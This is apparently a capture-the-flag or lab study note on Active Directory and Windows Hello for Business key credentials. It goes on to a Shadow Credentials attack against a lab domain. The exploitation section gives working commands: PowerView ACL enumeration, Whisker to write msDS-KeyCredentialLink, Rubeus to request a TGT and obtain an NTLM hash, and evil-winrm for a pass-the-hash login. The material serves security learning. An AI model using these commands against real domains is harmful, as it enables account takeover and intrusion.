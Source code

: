 
## Centralized authentication system
> Can be thought of as a digital database, of users, groups, and computers with attributes and permissions

### Domain controller
> Heart of AD
- Handles data storage,
- authentication and,
- authorization

### Windows Hello for Business
- Uses public private key pairs for authentication.
- Keys linked to a pin/biometric
- ``msDS-KeyCredentialLink``is attribute where the public key is stored

### Process to create new certificate pair
1. Trusted Platform Module creates private and public key pair
2. Client makes request for certificate from Organization's Certificate issuing Authority
3. ``msDS-KeyCredentialLink`` is set with public key

### Authentication Process
1. DC decrypts pre-authentication data with value from ``msDS-KeyCredentialLink``
2. Certificate generated by DC then sent back to client
3. Client can use certificate

## Exploiting
### Enumeration
`PowerView` scripts
- `Find-InterestingDomainAcl -ResolveGuids` returns all the user's privileges
- `Where-Object { $_.IdentityReferenceName -eq "hr"}` filters for username "hr"
- `Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights` returns the current user, vulnerable user, and privileges
##### Output

IdentityReferenceName| ObjectDN | ActiveDirectoryRights
--------------------- |--------  |   ---------------------
hr                    | CN=vansprinkles,CN=Users,DC=AOC,DC=local |ListChildren, ReadProperty, GenericWrite

This means we can use `GenericWrite` to write to the `msDS-KeyCredentialLink` of the ObjectDNs. This is knows as the **Shadow Credentials Attack**

### Exploitation
1. Use `whisker add /target:vansprinkles` to simulate the enrollment of a malicious device which changes the `msDS-KeyCredentialLink` attribute. Returns a certificate used to  authenticate.
2. Ask for a TGT (session token) to impersonate target user
3. `.\Rubeus.exe asktgt /user:vansprinkles /certificate:[Certificate from 1] /password:[password from 1] /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show` Returns NTLM hash.
4. Use NTLM hash for pash the hash attack
5. Use `evil-winrm -i IP -u vansprinkles -H [Hash from 3]` Logs in to the target user



